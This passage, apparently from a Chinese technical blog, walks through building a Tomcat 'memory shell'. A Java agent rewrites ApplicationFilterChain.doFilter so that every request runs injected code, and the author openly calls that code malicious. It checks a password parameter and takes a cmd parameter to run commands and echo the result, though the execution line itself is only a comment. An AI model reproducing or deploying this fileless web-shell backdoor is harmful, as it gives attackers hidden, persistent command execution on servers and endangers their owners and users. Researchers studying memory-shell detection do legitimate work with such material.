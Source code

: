 乍一看内容挺多，其实总结下来就是——调用`this.internalDoFilter()`。所以再来简单看一下`internalDoFilter()`方法：

```
private void internalDoFilter(ServletRequest request,
                                  ServletResponse response)
        throws IOException, ServletException {

        // Call the next filter if there is one
        if (pos < n) {
            ......
        }}
复制代码
```

这两个个方法拥有`Request`和`Response`参数。如果能重写其中一个，那就能控制所有的请求和响应！因此，用来作为内存马的入口点简直完美。这里我选择`doFilter()`方法，具体原因会在之后提到。

### Java agent修改 doFilter

只需要对上面的示例代码做一些变动即可。

1. 指定需要修改的类名和方法名：

   ```
   public static final String editClassName = "org.apache.catalina.core.ApplicationFilterChain";public static final String editClassName2 = editClassName.replace('.', '/');public static final String editMethod = "doFilter";
   复制代码
   ```

2. 为了不破坏程序原本的功能，这里不再使用`setBody()`方法，而是采用`insertBefore()`：

   ```
   method.insertBefore(source);
   复制代码
   ```

3. 出于方便考虑，实现一个`readSource()`方法，从文件中读取数据。：

   ```
   String source = this.readSource("start.txt");public static String readSource(String name) {
           String result = "";
           // result = name文件的内容
           return result;
       }
   复制代码
   ```

4. 在`start.txt`中，写入恶意代码：

   ```
   {
       javax.servlet.http.HttpServletRequest request = $1;
    javax.servlet.http.HttpServletResponse response = $2;
    request.setCharacterEncoding("UTF-8");
       String result = "";
       String password = request.getParameter("password");
       if (password != null) {
           // change the password here
           if (password.equals("xxxxxx")) { 
               String cmd = request.getParameter("cmd");
               if (cmd != null && cmd.length() > 0) {
                   // 执行命令，获取回显
            }
               response.getWriter().write(result);
               return;
           }
    }}
   复制代码
   ```
